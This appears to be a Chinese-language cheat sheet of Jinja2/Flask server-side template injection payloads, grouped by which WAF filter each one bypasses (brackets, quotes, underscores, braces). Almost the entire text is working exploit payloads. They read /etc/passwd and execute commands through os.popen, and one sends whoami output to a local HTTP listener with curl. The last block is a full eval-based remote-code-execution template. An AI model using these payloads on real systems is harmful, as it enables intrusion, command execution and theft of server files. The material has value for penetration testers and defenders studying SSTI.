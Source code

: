 **绕waf**

过滤【

```python
#getitem、pop
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

过滤引号

```
#chr函数
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
#命令执行
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```

过滤下划线

```
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

过滤花括号

```
#用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

利用示例

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}         //popen的参数就是要执行的命令
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
